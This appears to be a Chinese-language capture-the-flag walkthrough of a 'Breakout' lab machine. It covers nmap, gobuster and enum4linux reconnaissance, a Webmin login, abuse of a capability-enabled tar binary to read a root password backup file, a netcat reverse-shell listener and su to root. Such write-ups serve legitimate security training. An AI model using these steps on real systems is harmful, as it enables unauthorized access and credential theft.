






# 信息搜集

主机发现

```markup
┌──(kali㉿kali)-[~]
└─$ nmap -sn 192.168.21.0/24
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-01 02:47 EDT
Nmap scan report for 192.168.21.1 (192.168.21.1)
Host is up (0.0014s latency).
MAC Address: CC:E0:DA:EB:34:A2 (Baidu Online Network Technology (Beijing))
Nmap scan report for 192.168.21.2 (192.168.21.2)
Host is up (0.00012s latency).
MAC Address: 04:6C:59:BD:33:50 (Intel Corporate)
Nmap scan report for 192.168.21.3 (192.168.21.3)
Host is up (0.063s latency).
MAC Address: 72:10:25:EC:4F:8C (Unknown)
Nmap scan report for 192.168.21.5 (192.168.21.5)
Host is up (0.00020s latency).
MAC Address: 08:00:27:18:72:49 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.21.11 (192.168.21.11)
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.40 seconds
```

端口扫描

```markup
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 192.168.21.5
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-01 03:14 EDT
Nmap scan report for 192.168.21.5 (192.168.21.5)
Host is up (0.00021s latency).
Not shown: 65530 closed tcp ports (reset)
PORT      STATE SERVICE
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
10000/tcp open  snet-sensor-mgmt
20000/tcp open  dnp
MAC Address: 08:00:27:18:72:49 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.94 seconds
                                                                
┌──(kali㉿kali)-[~]
└─$ nmap -sT -sV -O -p80,139,445,10000,20000 192.168.21.5
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-01 03:15 EDT
Nmap scan report for 192.168.21.5 (192.168.21.5)
Host is up (0.00032s latency).

PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
MAC Address: 08:00:27:18:72:49 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.69 seconds
```

# 漏洞利用

80端口



解码一下



看一下10000端口



20000端口



目录扫描

```markup
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.5 -w SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -x html,php,txt,jpg,png,zip,git 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.5
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              zip,git,html,php,txt,jpg,png
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 11159]
/.html                (Status: 403) [Size: 277]
/manual               (Status: 301) [Size: 313] [--> http://192.168.21.5/manual/]                                               
/.html                (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
/logitech-quickcam_w0qqcatrefzc5qqfbdz1qqfclz3qqfposz95112qqfromzr14qqfrppz50qqfsclz1qqfsooz1qqfsopz1qqfssz0qqfstypez1qqftrtz1qqftrvz1qqftsz2qqnojsprzyqqpfidz0qqsaatcz1qqsacatzq2d1qqsacqyopzgeqqsacurz0qqsadisz200qqsaslopz1qqsofocuszbsqqsorefinesearchz1.html (Status: 403) [Size: 277]
Progress: 9482032 / 9482040 (100.00%)
===============================================================
Finished
===============================================================
```

使用enum4linux枚举一下smb

```markup
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Tue Apr  1 03:24:53 2025

 =========================================( Target Information )=========================================                       
                                                                
Target ........... 192.168.21.5                                 
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ============================( Enumerating Workgroup/Domain on 192.168.21.5 )============================                       
                                                                
                                                                
[E] Can't find workgroup/domain                                 
                                                                
                                                                

 ================================( Nbtstat Information for 192.168.21.5 )================================                       
                                                                
Looking up status of 192.168.21.5                               
No reply from 192.168.21.5

 ===================================( Session Check on 192.168.21.5 )===================================                        
                                                                
                                                                
[+] Server 192.168.21.5 allows sessions using username '', password ''                                                          
                                                                
                                                                
 ================================( Getting domain SID for 192.168.21.5 )================================                        
                                                                
Domain Name: WORKGROUP                                          
Domain Sid: (NULL SID)

[+] Can't determine if host is part of domain or part of a workgroup                                                            
                                                                
                                                                
 ===================================( OS information on 192.168.21.5 )===================================                       
                                                                
                                                                
[E] Can't get OS info with smbclient                            
                                                                
                                                                
[+] Got OS info for 192.168.21.5 from srvinfo:                  
        BREAKOUT       Wk Sv PrQ Unx NT SNT Samba 4.13.5-Debian 
        platform_id     :       500
        os version      :       6.1
        server type     :       0x809a03


 =======================================( Users on 192.168.21.5 )=======================================                        
                                                                
Use of uninitialized value $users in print at ./enum4linux.pl line 972.
Use of uninitialized value $users in pattern match (m//) at ./enum4linux.pl line 975.

Use of uninitialized value $users in print at ./enum4linux.pl line 986.
Use of uninitialized value $users in pattern match (m//) at ./enum4linux.pl line 988.

 =================================( Share Enumeration on 192.168.21.5 )=================================                        
                                                                
smbXcli_negprot_smb1_done: No compatible protocol selected by server.

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (Samba 4.13.5-Debian)
Reconnecting with SMB1 for workgroup listing.
Protocol negotiation to server 192.168.21.5 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available

[+] Attempting to map shares on 192.168.21.5                    
                                                                
//192.168.21.5/print$   Mapping: DENIED Listing: N/A Writing: N/A

[E] Can't understand response:                                  
                                                                
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*                      
//192.168.21.5/IPC$     Mapping: N/A Listing: N/A Writing: N/A

 ============================( Password Policy Information for 192.168.21.5 )============================                       
                                                                
                                                                

[+] Attaching to 192.168.21.5 using a NULL share

[+] Trying protocol 139/SMB...

[+] Found domain(s):

        [+] BREAKOUT
        [+] Builtin

[+] Password Info for Domain: BREAKOUT

        [+] Minimum password length: 5
        [+] Password history length: None
        [+] Maximum password age: 37 days 6 hours 21 minutes 
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0

        [+] Minimum password age: None
        [+] Reset Account Lockout Counter: 30 minutes 
        [+] Locked Account Duration: 30 minutes 
        [+] Account Lockout Threshold: None
        [+] Forced Log off Time: 37 days 6 hours 21 minutes 


[+] Retieved partial password policy with rpcclient:            
                                                                
                                                                
Password Complexity: Disabled                                   
Minimum Password Length: 5


 =======================================( Groups on 192.168.21.5 )=======================================                       
                                                                
                                                                
[+] Getting builtin groups:                                     
                                                                
                                                                
[+]  Getting builtin group memberships:                         
                                                                
                                                                
[+]  Getting local groups:                                      
                                                                
                                                                
[+]  Getting local group memberships:                           
                                                                
                                                                
[+]  Getting domain groups:                                     
                                                                
                                                                
[+]  Getting domain group memberships:                          
                                                                
                                                                
 ==================( Users on 192.168.21.5 via RID cycling (RIDS: 500-550,1000-1050) )==================                        
                                                                
                                                                
[I] Found new SID:                                              
S-1-22-1                                                        

[I] Found new SID:                                              
S-1-5-32                                                        

[I] Found new SID:                                              
S-1-5-32                                                        

[I] Found new SID:                                              
S-1-5-32                                                        

[I] Found new SID:                                              
S-1-5-32                                                        

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''                                                     
                                                                
S-1-5-32-544 BUILTIN\Administrators (Local Group)               
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

[+] Enumerating users using SID S-1-5-21-1683874020-4104641535-3793993001 and logon username '', password ''                    
                                                                
S-1-5-21-1683874020-4104641535-3793993001-501 BREAKOUT\nobody (Local User)
S-1-5-21-1683874020-4104641535-3793993001-513 BREAKOUT\None (Domain Group)

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                                     
                                                                
S-1-22-1-1000 Unix User\cyber (Local User)                      

 ===============================( Getting printer info for 192.168.21.5 )===============================                        
                                                                
No printers returned.                                           


enum4linux complete on Tue Apr  1 03:25:29 2025
```

发现了一个用户，使用用户和刚才解码出来的尝试登录10000和20000端口



提供了shell访问权限



user.txt

```markup
[cyber@breakout ~]$ cat user.txt
3mp!r3{You_Manage_To_Break_To_My_Secure_Access}
```

# 提权

看一下有没有可以利用的

```markup
[cyber@breakout ~]$ ls -la
total 568
drwxr-xr-x  8 cyber cyber   4096 Oct 20  2021 .
drwxr-xr-x  3 root  root    4096 Oct 19  2021 ..
-rw-------  1 cyber cyber      0 Oct 20  2021 .bash_history
-rw-r--r--  1 cyber cyber    220 Oct 19  2021 .bash_logout
-rw-r--r--  1 cyber cyber   3526 Oct 19  2021 .bashrc
drwxr-xr-x  2 cyber cyber   4096 Oct 19  2021 .filemin
drwx------  2 cyber cyber   4096 Oct 19  2021 .gnupg
drwxr-xr-x  3 cyber cyber   4096 Oct 19  2021 .local
-rw-r--r--  1 cyber cyber    807 Oct 19  2021 .profile
drwx------  2 cyber cyber   4096 Oct 19  2021 .spamassassin
-rwxr-xr-x  1 root  root  531928 Oct 19  2021 tar
drwxr-xr-x  2 cyber cyber   4096 Oct 20  2021 .tmp
drwx------ 16 cyber cyber   4096 Oct 19  2021 .usermin
-rw-r--r--  1 cyber cyber     48 Oct 19  2021 user.txt
[cyber@breakout ~]$ sudo -l
bash: line 1: sudo: command not found
[cyber@breakout ~]$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/umount
/usr/bin/passwd
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/fusermount
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/chsh
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
[cyber@breakout ~]$ /usr/sbin/getcap -r / 2>/dev/null
/home/cyber/tar cap_dac_read_search=ep
/usr/bin/ping cap_net_raw=ep
[cyber@breakout ~]$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
cyber:x:1000:1000:cyber,,,:/home/cyber:/bin/bash
```

tar文件为root所有并且允许执行，提权

```markup
[cyber@breakout ~]$ ./tar -cf bak.tar /var/backups/.old_pass.bak
./tar: Removing leading `/' from member names
[cyber@breakout ~]$ tar -xf bak.tar
[cyber@breakout ~]$ cat var/backups/.old_pass.bak
Ts&4&YurgtRX(=~h
```

不知道为什么，直接su直接报错，反弹一下

```markup
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444                                        
listening on [any] 4444 ...
connect to [192.168.21.11] from (UNKNOWN) [192.168.21.5] 38716
id
uid=1000(cyber) gid=1000(cyber) groups=1000(cyber),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
su -l
Ts&4&YurgtRX(=~h
id
uid=0(root) gid=0(root) groups=0(root)
```

root.txt

```markup
ls -la
total 40
drwx------  6 root root 4096 Oct 20  2021 .
drwxr-xr-x 18 root root 4096 Oct 19  2021 ..
-rw-------  1 root root  281 Oct 20  2021 .bash_history
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 Oct 19  2021 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root  100 Oct 19  2021 rOOt.txt
drwx------  2 root root 4096 Oct 19  2021 .spamassassin
drwxr-xr-x  2 root root 4096 Oct 19  2021 .tmp
drwx------  6 root root 4096 Oct 19  2021 .usermin
cat rOOt.txt
3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}

Author: Icex64 & Empire Cybersecurity
```